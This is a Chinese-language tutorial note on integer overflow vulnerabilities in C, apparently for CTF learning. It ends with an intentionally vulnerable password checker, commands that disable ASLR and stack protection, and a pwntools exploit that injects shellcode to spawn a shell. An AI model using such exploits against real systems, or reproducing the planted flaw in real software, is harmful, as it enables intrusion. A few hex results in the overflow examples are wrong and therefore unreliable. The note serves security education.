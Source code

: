 # 前言

开始整数溢出的学习，这部分相对来说很简单了。

# 原理

64位的gcc-5.4的类型及字节数如下：

| 类型               | 字节         | 范围                                                         |
| ------------------ | ------------ | ------------------------------------------------------------ |
| short int          | 2byte(word)  | 0~32767(0~0x7fff) -32768~-1(0x8000~0xffff)                   |
| unsigned short int | 2byte(word)  | 0~65535(0~0xffff)                                            |
| int                | 4byte(dword) | 0~2147483647(0~0x7fffffff) -2147483648~-1(0x80000000~0xffffffff) |
| unsigned int       | 4byte(dword) | 0~4294967295(0~0xffffffff)                                   |
| long int           | 8byte(qword) | 正: 0~0x7fffffffffffffff 负: 0x8000000000000000~0xffffffffffffffff |
| unsigned long int  | 8byte(qword) | 0~0xffffffffffffffff                                         |



## 溢出

溢出指的是有符号数。这里以short举例，之后也都是。

上溢出是`0x7fff+1=0x8fff`，由正变负。

下溢出时`0x8000-1 = 0x7ffff`，由负变正。

## 回绕

对于无符号数来说是回绕，也是两种：

```
0xffff + 1 = 0x0000
0x0000 - 1 = 0xffff
```



# 漏洞场景

## 错误的类型转换

### 大范围转小范围

其实就是精度丢失了，导致的漏洞。而小范围转大范围则不会有这种问题。

### 有符号和无符号的转换

直接看wiki的例子了：

```c
int main(void)
{
    int len, l;
    char buf[11];

    scanf("%d", &len);
    if (len < 10) {
        l = read(0, buf, len);
        *(buf+l) = 0;
        puts(buf);
    } else
        printf("Please len < 10");        
}
```

本来限制了输入的长度必须比10小，但是read函数：

```c
ssize_t read(int fd, void * buf, size_t count);
```

`size_t`是无符号的类型，这就导致了漏洞：

![image-20220117202209935](整数溢出学习.assets/image-20220117202209935.png)



# 例题

这部分内容比较简单，直接以CTF-ALL-IN-One上的例子来结束吧：

```c
#include<stdio.h>
#include<string.h>
void validate_passwd(char *passwd) {
    char passwd_buf[11];
    unsigned char passwd_len = strlen(passwd);
    if(passwd_len >= 4 && passwd_len <= 8) {
        printf("good!\n");
        strcpy(passwd_buf, passwd);
    } else {
        printf("bad!\n");
    }
}

int main(int argc, char *argv[]) {
    if(argc != 2) {
        printf("error\n");
        return 0;
    }
    validate_passwd(argv[1]);
}
```

```shell
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -z execstack vuln.c -o vuln -m32
```

把地址随机化关闭来方便攻击。

因为`passwd_len`是无符号的，存在一个截断，比如strlen的结果是0x104，那么`passwd_len`得到的就是0x04，成功绕过。

接下来就是写shellcode到栈上面然后控制返回地址到shellcode上了。

EXP：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
ret_addr = 0xffffcef8+4+4+4
shellcode = asm(shellcraft.sh())
payload = flat([24*'a',ret_addr,'a'*4,shellcode,(0x104-72)*'a'])
p = process(argv=['./vuln',payload])
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.recv()
p.interactive()

```

![image-20220117224945928](整数溢出学习.assets/image-20220117224945928.png)